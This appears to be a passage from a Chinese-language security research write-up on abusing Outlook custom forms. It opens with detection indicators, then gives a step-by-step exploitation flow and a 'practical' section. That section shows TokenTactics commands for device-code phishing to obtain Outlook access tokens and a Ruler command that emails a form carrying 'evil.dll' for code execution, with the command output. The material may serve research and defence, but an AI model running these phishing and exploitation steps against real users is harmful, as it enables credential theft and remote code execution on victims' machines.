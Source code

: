触发表单需要用户交互才能执行（尽管进一步挖掘可能会揭示自动执行）。

-   DLL 将被提取到众所周知的 FORMS 目录，可以监控历史攻击。
-   注册表中的 CLSID 更改由 Outlook 进程执行。
-   DLL 将被加载到 Outlook 进程中。

下面我们提供了一般利用流程的高级概述：

1.  获取目标用户的凭证材料。
2.  创建一个我们想要执行的 COM 兼容的 DLL。
3.  向 Ruler 指定我们的凭证材料、DLL 和其他必需/可选参数。
4.  Ruler 将向 Exchange Server/Exchange Online 进行身份验证，并将表单作为电子邮件发送。
5.  然后，用户需要通过 Windows 设备上的 Microsoft Outlook 胖客户端单击、转发或打印电子邮件来触发表单。
6.  执行该表单将创建注册表项、将 DLL 放入磁盘并将 DLL 加载到 Outlook 进程中。

#### 实战

在本节中，我们将介绍对该问题的实际利用。首先，我们使用我们选择的武器，在本例中为 [TokenTactics](https://github.com/rvrsh3ll/TokenTactics)，通过设备代码 phishing/vishing 获得刷新令牌。

```plain
PS C:\\TokenTactics> Import-Module .\\TokenTactics.psd1
PS C:\\TokenTactics> Get-AzureToken -Client Outlook
user\_code        : L78NMWTT3
device\_code      : \[REDACTED\]              
verification\_url : https://microsoft.com/devicelogin
expires\_in       : 900
interval         : 5
message          : To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code L78NMWTT3 to authenticate.

authorization\_pending
token\_type     : Bearer
scope          : AuditLog.Read.All 
\[TRUNCATED\]
expires\_in     : 8492
ext\_expires\_in : 8492
expires\_on     : 1697842572
not\_before     : 1697833779
resource       : https://graph.microsoft.com/
access\_token   : eyJ0\[REDACTED\]

PS C:\\TokenTactics> $response.access\_token | clip
```

编译完 COM DLL 后，我们使用 Ruler 的 fork 发送表单。以下是 Ruler 命令的示例，请注意所提供参数的顺序很重要。Ruler 将使用我们的 Outlook 访问令牌向 Exchange Online 进行身份验证，并将包含 DLL 文件的表单作为电子邮件发送。

```plain
$ go run .\\ruler.go --token "\[REDACTED\]" --email user@example.com --o365 --debug form add-com --dll evil.dll --suffix Evil -s
\[+\] Found cached Autodiscover record. Using this (use --nocache to force new lookup)
\[+\] Create Form Pointer Attachment with data:  \\CLSID\\{00000000-1234-1234-1234-FEED00000000}\\InprocServer32=%d\\Microsoft.Teams.Shim.dll
Starting Upload
Writing final piece 0 of 0
\[+\] Create Form Template Attachment
Starting Upload
Writing 0 of 43
\[TRUNCATED\]
Writing final piece 43 of 43
\[+\] Form created successfully:  IPM.Note.Evil
\[+\] Sending email.
\[+\] Email sent!
```
